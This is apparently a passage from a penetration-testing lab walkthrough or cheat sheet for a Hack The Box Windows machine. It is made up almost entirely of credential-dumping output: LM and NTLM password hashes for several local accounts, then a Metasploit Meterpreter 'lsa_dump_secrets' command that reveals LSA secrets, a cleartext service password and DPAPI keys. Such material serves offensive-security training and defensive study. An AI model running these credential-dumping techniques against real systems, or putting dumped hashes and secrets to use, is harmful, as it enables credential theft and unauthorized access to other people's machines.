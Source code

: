 ```shell-session
  Hash NTLM: 8ed3993efb4e6476e4f75caebeca93e6

RID  : 000003eb (1003)
User : IUSR_GRANPA
  Hash LM  : a274b4532c9ca5cdf684351fab962e86
  Hash NTLM: 6a981cb5e038b2d8b713743a50d89c88

RID  : 000003ec (1004)
User : IWAM_GRANPA
  Hash LM  : 95d112c4da2348b599183ac6b1d67840
  Hash NTLM: a97f39734c21b3f6155ded7821d04d16

RID  : 000003ef (1007)
User : ASPNET
  Hash LM  : 3f71d62ec68a06a39721cb3f54f04a3b
  Hash NTLM: edc0d5506804653f58964a2376bbd769

RID  : 000003f1 (1009)
User : Lakis
  Hash LM  : f927b0679b3cc0e192410d9b0b40873c
  Hash NTLM: 3064b6fc432033870c6730228af7867c
```

**MSF - Meterpreter LSA Secrets Dump**

Meterpreter

```shell-session
meterpreter > lsa_dump_secrets

[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : GRANNY
SysKey : 11b5033b62a3d2d6bb80a0d45ea88bfb

Local name : GRANNY ( S-1-5-21-1709780765-3897210020-3926566182 )
Domain name : HTB

Policy subsystem is : 1.7
LSA Key : ada60ee248094ce782807afae1711b2c

Secret  : aspnet_WP_PASSWORD
cur/text: Q5C'181g16D'=F

Secret  : D6318AF1-462A-48C7-B6D9-ABB7CCD7975E-SRV
cur/hex : e9 1c c7 89 aa 02 92 49 84 58 a4 26 8c 7b 1e c2 

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 7a 3b 72 f3 cd ed 29 ce b8 09 5b b0 e2 63 73 8a ab c6 ca 49 2b 31 e7 9a 48 4f 9c b3 10 fc fd 35 bd d7 d5 90 16 5f fc 63 
    full: 7a3b72f3cded29ceb8095bb0e263738aabc6ca492b31e79a484f9cb310fcfd35bdd7d590165ffc63
    m/u : 7a3b72f3cded29ceb8095bb0e263738aabc6ca49 / 2b31e79a484f9cb310fcfd35bdd7d590165ffc63

Secret  : L$HYDRAENCKEY_28ada6da-d622-11d1-9cb9-00c04fb16e75
```